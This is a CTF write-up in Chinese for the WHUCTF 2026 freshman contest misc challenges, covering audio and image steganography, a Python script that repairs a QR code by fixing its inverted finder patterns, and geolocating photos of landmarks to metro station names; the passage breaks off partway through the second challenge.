---

title: WHUCTF2026新生赛Misc思路复现
date: 2026-10-25
authors:
  - badbadsheep
draft: false
summary: 酣畅淋漓啊酣畅淋漓
---

# rickroll

#### 音频隐写

题目的附件是receiver.mp3文件，打开详细信息查看发现是立体声。



于是下意识拖进Audacity分离左右声道查看。但并没有发现异常。



拖进010 editor简单查看，发现老熟人50 4B 03 04，是压缩包的文件头。使用binwalk提取，得到了一个你被骗了.MP4






放映的时候可以看见一闪而过的二维码，使用视频抽帧工具抽出了二维码所在帧（被切成了3份）

<div class="figures" w-30>







</div>

#### 拼二维码

不难发现二维码的定位块有些问题。仔细观察发现，5×5的黑色框框套着3×3的白色方形，再外面是7×7的白色方框，说明定位块被反色了。一开始还尝试手动抠图，发给手机上用画世界pro拼起来并修复。后来发现精度太低实在扫不出来。于是请教ai写出恢复脚本：
```python
import numpy as np
from PIL import Image
import cv2

FRAMES = ["0053", "0054", "0055"]
X0, Y0 = 306, 146          # 二维码内容区左上角
MODULE = 12                # 单个模块边长(px)
N = 29                     # 29x29 -> QR Version 3


def load_gray(path):
    return np.array(Image.open(path).convert("L")).astype(np.int32)


def merge_frames(paths, x0=X0, y0=Y0, n=N, m=MODULE):
    """把三条显影带按绝对坐标取并集，得到 1 通道二值大图"""
    size = n * m
    canvas = np.full((size, size), 255, dtype=np.uint8)
    for p in paths:
        a = load_gray(p)
        band = a[y0:y0 + size, x0:x0 + size]        # 只取内容区
        canvas[band < 128] = 0                       # 黑色像素合并
    return canvas


def to_grid(canvas, n=N, m=MODULE, margin=3):
    """像素图 -> n x n 模块矩阵（采样每格中心，避开边缘抗锯齿）"""
    g = np.zeros((n, n), dtype=bool)
    for r in range(n):
        for c in range(n):
            blk = canvas[r * m + margin:r * m + m - margin,
                         c * m + margin:c * m + m - margin]
            g[r, c] = blk.mean() < 128
    return g


def fix_finders(g):
    """
    原始 finder：白外环 + 黑 5x7 环 + 白核心（正好是标准 finder 的反色）
    标准 finder：黑外环 + 白环 + 黑 3x3 核心
    """
    n = g.shape[0]
    fixed = g.copy()
    for r0, c0 in [(0, 0), (0, n - 7), (n - 7, 0)]:
        for dr in range(7):
            for dc in range(7):
                fixed[r0 + dr, c0 + dc] = (
                    dr in (0, 6) or dc in (0, 6)          # 外环
                    or (2 <= dr <= 4 and 2 <= dc <= 4)    # 3x3 核心
                )
    return fixed


def render(g, module=16, quiet=4):
    """模块矩阵 -> 可直接扫的图片（带 4 模块静默区）"""
    n = g.shape[0]
    side = (n + 2 * quiet) * module
    img = np.full((side, side), 255, dtype=np.uint8)
    for r in range(n):
        for c in range(n):
            if g[r, c]:
                img[(r + quiet) * module:(r + quiet + 1) * module,
                    (c + quiet) * module:(c + quiet + 1) * module] = 0
    return Image.fromarray(img)


def format_info(g):
    """读两份格式信息并做 BCH(15,5) 解码，顺便校验网格是否对齐"""
    n = g.shape[0]
    c1 = [g[8, i] for i in range(6)] + [g[8, 7], g[8, 8], g[7, 8]] \
         + [g[r, 8] for r in (5, 4, 3, 2, 1, 0)]
    c2 = [g[n - 1 - i, 8] for i in range(8)] + [g[8, n - 15 + i] for i in range(8, 15)]

    def bch(data):                    # 生成多项式 0x537，最终异或掩码 0x5412
        d = data << 10
        for i in range(14, 9, -1):
            if d >> i & 1:
                d ^= 0x537 << (i - 10)
        return ((data << 10) | d) ^ 0x5412

    ec_name = {1: "L", 0: "M", 3: "Q", 2: "H"}
    for name, bits in (("copy1", c1), ("copy2", c2)):
        v = int("".join(str(int(b)) for b in bits), 2)
        best = min(
            (bin(bch((ec << 3) | mk) ^ v).count("1"), ec_name[ec], mk)
            for ec in range(4) for mk in range(8)
        )
        print(f"  {name}: 距离 {best[0]} 位 -> 纠错等级 {best[1]}, 掩码 {best[2]}")


if __name__ == "__main__":
    d = "W:/WHUCTF/extractions/receiver.mp3.extracted/1C/"
    paths = [d + f"frame_{i}.png" for i in FRAMES]

    canvas = merge_frames(paths)
    grid = to_grid(canvas)

    print("[*] 复原出的 29x29 模块矩阵:")
    for row in grid:
        print("   " + "".join("#" if v else "." for v in row))

    print("[*] 格式信息解码:")
    format_info(grid)

    fixed = fix_finders(grid)
    img = render(fixed)
    img.save("qr_repaired.png")
    print("[*] 已保存 qr_repaired.png")

    # 两套独立引擎交叉验证
    txt_cv = cv2.QRCodeDetector().detectAndDecode(
        cv2.imread("qr_repaired.png", cv2.IMREAD_GRAYSCALE))[0]
    print("[*] OpenCV  解码:", txt_cv)
    try:
        import zxingcpp
        print("[*] zxing   解码:", zxingcpp.read_barcodes(img)[0].text)
    except ImportError:
        pass


```
修复后扫码得到flag：
`whuctf{h4il_t0_thee}`

# 凡猫修仙传

#### 第一关

注意到，图片最上面黑色有一排神秘像素点。



猜测是LSB隐写的痕迹，于是使用StegSolve，勾选0通道提取数据，然而并没有收获。回到经典套路，先拖到010里：



立马发生了报错，IDAT数据块后面还有尾随的十六进制数据。复制拖入解码器，得到了提示：**失真**



好吧原来就是一开始看到的那些神秘黑点，回到StegSolve仔细检查。切换颜色通道时发现在Alpha plan 7显示的尤其明显。



于是提取透明通道7的数据，同样是16进制编码。





D3LM的base64编码：`RDNMTQ==` 成功进入第二关

#### 第二关

唉居然还有开盒环节（震惊瘫坐

>题目要求：压缩包的密码是两张照片的拍摄地点，具体来说，是地铁站的名字直接连起来的拼音，如“循礼门中山公园”->“xunlimenzhongshangongyuan"

<div class="figures w-45">





</div>

尝试使用exiftool提取经纬度无果，很显然是被狡猾地出题人删掉了，只能硬盒。

第一张图比较明显，手提袋上画的是上海陆家嘴，还写着 我❤上海，再结合8号线9号线换乘点，容易找出地点是陆家浜路(lujiabanglu)

第二张图...唉，巧了，家门口。（土生土长武汉人狂喜）一眼认出华中第一高楼 武汉绿地中心。目光锁定在旁边的尖顶黄色建筑上。当时的思路是，高德地图上的3D地图是可以显示建筑外形的，尖顶这样的特征应该很容易找。然而半个小时后无果，怀疑高德的建筑轮廓并不严谨，只能转向其他线索。

放大发现远处有一个和大厦并列的塔吊



在b站搜索绿地中心航拍，发现了这栋正在施工的建筑。（居然修了2年高度还没怎么变化）


再结合方位和大致距离可初步确定，是江对面的三阳路地铁站(sanyanglu)

之后挨个点开地铁站每个出口，观察热心市民们在高德地图上传的实景照片，终于发现了这张图（简直完美，就是L4出口）（事后学长点拨，可以通过被打码的橙色色块推出是7号线，帮助锁定范围（太细节了

<div class="figures w-95">

